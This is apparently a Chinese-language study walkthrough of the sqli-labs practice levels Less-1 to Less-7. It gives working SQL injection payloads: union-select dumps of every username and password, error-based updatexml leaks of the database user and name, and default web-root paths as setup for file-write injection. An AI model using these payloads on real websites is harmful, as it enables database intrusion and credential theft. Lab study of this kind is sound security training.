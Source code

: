 查询 users 表下的所有用户名及其密码：

1. `group_concat(username)` 表示将 users 表中的列 username 下的所有数据压缩成一行来显示
2. `group_concat(password)` 作用同上
3. `from users` 注意我们要提取的表名称！

`http://sqli:10001/Less-1/?id=0' union select 1,group_concat(username),group_concat(password) from users --+`

![](../imgs/target/sqli/s14.png)

<br>

concat_ws 的使用  
语法：concat_ws(spet,str1,str2)，spet 为分隔符，使用 16 进制表示，str1 和 str2 就是相互连接的两个字符串

`http://sqli:10001/Less-1/?id=0' union select 1,(select group_concat(concat_ws(0x7e,username,password))from users),3 --+`

<br>

### Less-2 基于错误的整型注入

即 `id=1 and 1=1 --+`

<br>

### Less-3 基于错误的单引号变形字符型注入

即 `id=1') and 1=1 --+`

<br>

### Less-4 基于错误的双引号变形字符型注入

即 `id=1") and 1=1 --+`

<br>

### Less-5 基于单引号字符型的错误回显注入

> 基于 updatexml 函数的解释，请看我的另一篇文章 QWQ

通关密钥：`id=1' union select updatexml(666,concat('~',(select user())),'good luck') -- zhiyiyi`

<br>

### Less-6 基于双引号字符型的错误回显注入

通关密钥：`http://sqli:10001/Less-6/?id=1" union select updatexml(666,concat('~',(select database())),'good luck') -- zhiyiyi`

<br>

### Less-7 文件导入方式注入

主流平台文件结构  
winserver 的 IIS 默认路径`c:\Inetpub\wwwroot`  
linux 是`/usr/local/nginx/html，/home/wwwroot/default，/usr/share/nginx，/var/www/htm`  
apache 是`.../var/www/htm，.../var/www/html/htdocs`  
phpstudy 是`...\PhpStudy20180211\PHPTutorial\WWW\`  
xammp 是`...\xampp\htdocs`
